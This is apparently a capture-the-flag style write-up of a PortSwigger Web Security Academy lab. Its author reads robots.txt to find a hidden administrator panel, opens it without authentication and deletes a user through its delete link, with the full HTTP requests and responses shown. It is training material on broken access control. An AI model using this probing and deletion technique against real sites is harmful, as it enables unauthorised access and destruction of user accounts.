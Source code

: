 ## Lab: Unprotected admin functionality

This lab has an unprotected admin panel.

Solve the lab by deleting the user `carlos`.

## Solution:
We enter the site and sends the request to repeater and first action is to request robots.txt.
Request:
```http
GET /robots.txt HTTP/2
Host: 0ab5004c039c609481a32f0f00210040.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```
Response:
```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Set-Cookie: session=1Upan7uS63a4DAqTMfwhu59vMYz4PDqE; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 45

User-agent: *
Disallow: /administrator-panel

```

Here we find the ```/administrator-panel``` and send a request there.
Request:
```http
GET /administrator-panel HTTP/2
Host: 0ab5004c039c609481a32f0f00210040.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=k2OK2lD45dR42kb5XpanNo70p8NRJxFm; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3034

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Unprotected admin functionality</title>
    </head>
**********SNIP**********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/administrator-panel/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/administrator-panel/delete?username=carlos">Delete</a>
                        </div>
                    </section>
                    <br>
                    <hr>
                </div>
            </section>
**********SNIP**********
</html>
```

In the html snippet we find the a tag with a href attribute pointing to /delete with a query string pointing to a username to delete.

We make a request to the a tag.
```http
HTTP/2 302 Found
Location: /administrator-panel
Set-Cookie: session=6QC0cViVhZZlzgl0x73AoKJaAKg7k5tI; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
We get a 302 which redirects us back to the admin panel with the message  
![](../img/Deleted_User_Successfully.png)